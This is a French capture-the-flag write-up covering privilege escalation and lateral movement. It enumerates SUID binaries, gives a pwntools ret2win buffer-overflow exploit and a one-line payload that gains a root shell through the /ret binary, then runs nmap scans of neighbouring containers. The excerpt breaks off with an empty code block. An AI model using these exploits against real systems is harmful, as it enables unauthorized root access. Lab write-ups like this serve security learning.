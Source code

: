 ## Etape 4 : binaire /ret
Etape suivante : on remarque que sudo n'est même pas installé 😢 On regarde les binaires avec suid
```
$ find / -type f -perm -4000 -ls 2>/dev/null
156001   40 -rwsr-xr-x   1 root     root        40000 Mar 29  2015 /bin/mount
156039   28 -rwsr-xr-x   1 root     root        27416 Mar 29  2015 /bin/umount
156006   44 -rwsr-xr-x   1 root     root        44104 Nov  8  2014 /bin/ping
156007   44 -rwsr-xr-x   1 root     root        44552 Nov  8  2014 /bin/ping6
156022   40 -rwsr-xr-x   1 root     root        40168 May 17  2017 /bin/su
142767  456 -rwsr-xr-x   1 root     root       464904 Mar 25  2019 /usr/lib/openssh/ssh-keysign
156958   40 -rwsr-xr-x   1 root     root        39912 May 17  2017 /usr/bin/newgrp
156863   44 -rwsr-xr-x   1 root     root        44464 May 17  2017 /usr/bin/chsh
156861   56 -rwsr-xr-x   1 root     root        53616 May 17  2017 /usr/bin/chfn
156909   76 -rwsr-xr-x   1 root     root        75376 May 17  2017 /usr/bin/gpasswd
156970   56 -rwsr-xr-x   1 root     root        54192 May 17  2017 /usr/bin/passwd
 10150   12 -rwsr-xr-x   1 root     root         8864 Jul 23  2022 /ret
```
On remarque le dernier, /ret, un binaire un peu étrange. On le récupère en local, on le passe sous ghidra : après avoir lu un buffer de 128 bytes (non contrôlés), on ne fait rien. Mais il y a une fonction "win" qui n'est jamais appelée - mais qui lance un shell.
On va pouvoir faire un exploit, en local, qui lance win. Et il marche
```
#!/usr/bin/python
from pwn import *

elf = ELF("./ret", checksec = False)
p = process("./ret")

offset = 128 + 8

payload = b"a"*offset + p64(elf.symbols.win + 1 )
print(payload)

p.recvuntil("for me?\n")
p.sendline(payload)
p.clean()
p.interactive()
```
On peut se servir du payload directement en remote :
```
(python -c "print(b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaG\x06@\x00\x00\x00\x00\x00')"; cat)|/ret
```
On est passé root. On file voir le flag : 
```
cat /root/root.txt
Well done,my friend, you rooted a docker container.
```
Damned.

## Etape 5 : scan réseau (et /ret le retour)
Pour voir ce qu'on peut trouver d'autre, on va lancer linpeas. On remarque deux choses intéressantes
1. nmap est installé sur le serveur
2. il existe d'autres entrées dans /etc/hosts qui sont intéressantes.
On lance un scan depuis la machine cible sur le voisinage réseau :
```
nmap -sV 172.17.0.1-3
```
On remarque que sur 172.17.0.1:4444, il y a un service qui renvoie la même chose que le binaire /ret.
On rejoue le même exploit sur ce service :
```
```